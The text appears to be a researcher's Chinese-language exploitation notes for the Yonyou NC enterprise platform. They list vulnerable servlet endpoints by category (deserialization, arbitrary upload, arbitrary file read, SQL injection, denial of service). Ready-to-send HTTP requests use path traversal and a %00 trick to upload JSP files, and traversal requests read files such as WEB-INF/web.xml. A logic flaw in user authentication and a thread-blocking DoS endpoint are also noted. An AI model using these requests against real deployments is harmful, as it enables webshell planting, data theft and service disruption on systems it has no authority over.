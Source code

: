 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞
FileReceiveServlet.class	需要分析	看有没其他漏洞
FileParserServlet.class		需要分析	看有没其他漏洞
FileManageServlet.class		需要分析	看有没其他漏洞

ContactsQueryServiceServlet.class  
ContactsFuzzySearchServlet.class
ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷
ActionHandlerServlet.class

## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘

## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	

## sql注入

MdxQueryServlet.class

MARosterPhotoServlet.class  已有

## 综合漏洞

ManagerServlet.class  不是用友的 是tomcat的
	
	

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
